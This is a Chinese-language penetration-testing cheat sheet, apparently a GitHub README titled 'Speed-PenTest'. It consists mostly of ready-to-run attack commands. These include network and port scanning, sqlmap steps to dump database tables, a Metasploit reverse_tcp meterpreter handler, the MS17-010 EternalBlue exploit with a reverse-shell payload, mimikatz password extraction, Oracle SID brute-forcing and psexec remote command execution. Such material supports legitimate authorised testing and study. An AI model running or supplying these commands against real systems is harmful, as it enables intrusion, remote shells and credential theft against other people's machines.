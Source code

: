 # Speed-PenTest 
`出渗透测试报告也是需要技巧的`
[TOC]

---

# 通用
## 信息收集
### IP扫
>netdiscover -r 1.1.1.0/24

### 端口扫
>nmap -T5 -A -v 1.1.1.1

---

# web
## SQL注入
### sqlmap
```sql
sqlmap -u URL	判断注入
sqlmap -u URL --current-db	 获取当前数据库
sqlmap -u URL -D DATABASE --tables		获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		获取指定表的列名
```

## 业务渗透
### openssl
MassBleed
sslscan
testssl

---

# 主机
## handler
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
```

## exp
### ms17-010
```bash
发现，检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
提取密码操作
load mimikatz
kerberos
```

## poc
### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

## 域
cmd 下
```bash
#如果没有psexec工具记得找pstool工具包，传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```







